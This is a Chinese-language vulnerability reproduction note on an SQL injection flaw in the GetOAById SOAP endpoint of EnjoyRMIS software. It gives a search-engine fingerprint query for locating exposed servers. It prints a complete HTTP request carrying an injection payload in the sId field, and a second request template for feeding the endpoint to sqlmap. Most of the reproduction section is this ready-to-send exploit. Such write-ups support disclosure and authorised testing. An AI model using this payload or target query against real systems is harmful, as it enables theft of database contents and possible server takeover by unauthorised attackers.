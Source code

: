 # EnjoyRMIS GetOAById存在SQL注入漏洞

# 一、漏洞简介
EnjoyRMIS GetOAById存在SQL注入漏洞,攻击者可通过该漏洞获取数据库敏感信息甚至可控制服务器。

# 二、影响版本
+ EnjoyRMIS

# 三、资产测绘
+ hunter`web.body="CheckSilverlightInstalled"`
+ 特征

![1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89.png](./img/4X5X0Jwq8Umbb0L0/1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89-537066.png)

# 四、漏洞复现
```plain
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetOAById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOAById xmlns="http://tempuri.org/">
      <sId>string' AND 8448 IN (SELECT (CHAR(113)+CHAR(113)+CHAR(113)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (8448=8448) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(107)+CHAR(113)+CHAR(113))) AND 'OFyo'='OFyo</sId>
    </GetOAById>
  </soap:Body>
</soap:Envelope>
```

![1700644019370-8d33a405-91e7-4c16-86af-0b666f3d946e.png](./img/4X5X0Jwq8Umbb0L0/1700644019370-8d33a405-91e7-4c16-86af-0b666f3d946e-534846.png)

sqlmap

```plain
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetOAById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOAById xmlns="http://tempuri.org/">
      <sId>string</sId>
    </GetOAById>
  </soap:Body>
</soap:Envelope>
```

![1700644052319-929933e6-1c3c-4186-8449-0e4ce469a7f9.png](./img/4X5X0Jwq8Umbb0L0/1700644052319-929933e6-1c3c-4186-8449-0e4ce469a7f9-554815.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kqc59tbzda7rl8f6>